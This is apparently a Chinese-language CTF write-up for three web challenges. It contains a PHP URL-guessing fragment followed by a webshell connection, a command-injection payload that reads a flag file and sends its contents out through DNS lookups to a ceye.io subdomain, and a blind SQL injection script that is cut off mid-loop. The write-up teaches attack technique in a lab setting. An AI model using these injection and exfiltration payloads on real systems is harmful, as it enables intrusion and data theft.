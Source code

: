 ```php
    curl_setopt($ch,CURLOPT_HEADER,1);
    $result=curl_exec($ch);
    $code=curl_getinfo($ch,CURLINFO_HTTP_CODE);
    if($code=='404' && $result){
        curl_close($ch);
        return 0;
    } else {
        curl_close($ch);
        echo $code;
        echo "<br>";
        echo "#####got one!===>>>".$tmp_url;
        echo "<br>";
        return 1;
    }
}
```

猜解成功后菜刀连接，得到flag

***

### ping

进入后查看`robots.txt`，获得源码，以及`where_is_flag.php`

```php
<?php 
include("where_is_flag.php");
echo "ping";
$ip =(string)$_GET['ping'];
$ip =str_replace(">","0.0",$ip);
system("ping  ".$ip);
?>
```

知需要使用`ping`读取文件`where_is_flag.php`，这里使用一个开源项目搭建的平台[CEYE](http://ceye.io/records/dns)，原理是访问一个域名的下属子域名时，`dns`解析会有记录。在linux中可以使用飘号包裹命令，如：`ping 'echo 111'.xxx.com`（`'`代表飘号，`Markdown`中写不出来）。或可以使用`ping http://xxxxx/'whoami'`，解析主机的访问记录

但是这里由于换行符的干扰无法直接读取文件，故使用`bash`的循环：

```
ping=127.0.0.1 -c 1;for i in `cat where_is_flag.php`;do ping $i.3awcx4.ceye.io;done;
```

得到`$flag="dgfsdunsadkjgdgdfhdfhfgdhsadf/flag.php"`，同样的方法读取，得到flag

***

### 进击的盲注

这题过滤了括号和斜杠，看了网上的思路知道使用`order by`注入，且需使用`binary`区分大小写

盲注脚本：

```python
import requests

url = "http://114.55.36.69:6663/index.php"
flag = ""
while True:
    for i in range(48, 127):
        _data = {
            'username': f"admin' union select 1, 2, binary '{flag+chr(i)}' order by 3#",
            "password": "aaa"
        }
        r = requests.post(url, data=_data)
        #print(_data["username"])
```